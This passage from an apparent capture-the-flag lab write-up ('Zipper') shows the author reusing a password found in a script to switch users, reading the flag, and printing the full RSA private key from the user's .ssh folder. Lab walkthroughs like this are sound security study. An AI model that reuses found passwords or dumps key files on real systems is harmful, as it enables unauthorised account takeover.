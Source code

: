 But, it turns out the password in the script, "ZippityDoDah", is
zapper's password, so I can just `su`:



    zabbix@zipper:/home/zapper/utils$ su - zapper
    Password: 

                  Welcome to:
    ███████╗██╗██████╗ ██████╗ ███████╗██████╗ 
    ╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
      ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
     ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
    ███████╗██║██║     ██║     ███████╗██║  ██║
    ╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

    [0] Packages Need To Be Updated
    [>] Backups:
    4.0K    /backups/zapper_backup-2018-10-30.7z
    4.0K    /backups/zabbix_scripts_backup-2018-10-30.7z


    zapper@zipper:~$ id
    uid=1000(zapper) gid=1000(zapper) groups=1000(zapper),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)



From there, can grab user.txt:



    zapper@zipper:~$ cat user.txt 
    aa29e93f...



I can also can grab ssh keys as a save point:



    zapper@zipper:~/.ssh$ cat id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEAzU9krR2wCgTrEOJY+dqbPKlfgTDDlAeJo65Qfn+39Ep0zLpR
    l3C9cWG9WwbBlBInQM9beD3HlwLvhm9kL5s55PIt/fZnyHjYYkmpVKBnAUnPYh67
    GtTbPQUmU3Lukt5KV3nf18iZvQe0v/YKRA6Fx8+Gcs/dgYBmnV13DV8uSTqDA3T+
    eBy7hzXoxW1sInXFgKizCEXbe83vPIUa12o0F5aZnfqM53MEMcQxliTiG2F5Gx9M
    2dgERDs5ogKGBv4PkgMYDPzXRoHnktSaGVsdhYNSxjNbqE/PZFOYBq7wYIlv/QPi
    eBTz7Qh0NNR1JCAvM9MuqGURGJJzwdaO4IJJWQIDAQABAoIBAQDIu7MnPzt60Ewz
    +docj4vvx3nFCjRuauA71JaG18C3bIS+FfzoICZY0MMeWICzkPwn9ZTs/xpBn3Eo
    84f0s8PrAI3PHDdkXiLSFksknp+XNt84g+tT1IF2K67JMDnqBsSQumwMwejuVLZ4
    aMqot7o9Hb3KS0m68BtkCJn5zPGoTXizTuhA8Mm35TovXC+djYwgDsCPD9fHsajh
    UKmIIhpmmCbHHKmMtSy+P9jk1RYbpJTBIi34GyLruXHhl8EehJuBpATZH34KBIKa
    8QBB1nGO+J4lJKeZuW3vOI7+nK3RqRrdo+jCZ6B3mF9a037jacHxHZasaK3eYmgP
    rTkd2quxAoGBAOat8gnWc8RPVHsrx5uO1bgVukwA4UOgRXAyDnzOrDCkcZ96aReV
    UIq7XkWbjgt7VjJIIbaPeS6wmRRj2lSMBwf1DqZIHDyFlDbrGqZkcRv76/q15Tt0
    oTn4x8SRZ8wdTeSeNRE3c5aFgz+r6cklNwKzMNuiUzcOoR8NSVOJPqJzAoGBAOPY
    ks9+AJAjUTUCUF5KF4UTwl9NhBzGCHAiegagc5iAgqcCM7oZAfKBS3oD9lAwnRX+
    zH84g+XuCVxJCJaE7iLeJLJ4vg6P43Wv+WJEnuGylvzquPzoAflYyl3rx0qwCSNe
    8MyoGxzgSRrTFtYodXtXY5FTY3UrnRXLr+Q3TZYDAoGBALU/NO5/3mP/RMymYGac
    OtYx1DfFdTkyY3y9B98OcAKkIlaA0rPh8O+gOnkMuPXSia5mOH79ieSigxSfRDur
    7hZVeJY0EGOJPSRNY5obTzgCn65UXvFxOQCYtTWAXgLlf39Cw0VswVgiPTa4967A
    m9F2Q8w+ZY3b48LHKLcHHfx7AoGATOqTxRAYSJBjna2GTA5fGkGtYFbevofr2U8K
    Oqp324emk5Keu7gtfBxBypMD19ZRcVdu2ZPOkxRkfI77IzUE3yh24vj30BqrAtPB
    MHdR24daiU8D2/zGjdJ3nnU19fSvYQ1v5ObrIDhm9XNFRk6qOlUp+6lW7fsnMHBu
    lHBG9NkCgYEAhqEr2L1YpAW3ol8uz1tEgPdhAjsN4rY2xPAuSXGXXIRS6PCY8zDk
    WaPGjnJjg9NfK2zYJqI2FN+8Yyfe62G87XcY7ph8kpe0d6HdVcMFE4IJ8iKCemNE
    Yh/DOMIBUavqTcX/RVve0rEkS8pErQqYgHLHqcsRUGJlJ6FSyUPwjnQ=
    -----END RSA PRIVATE KEY-----

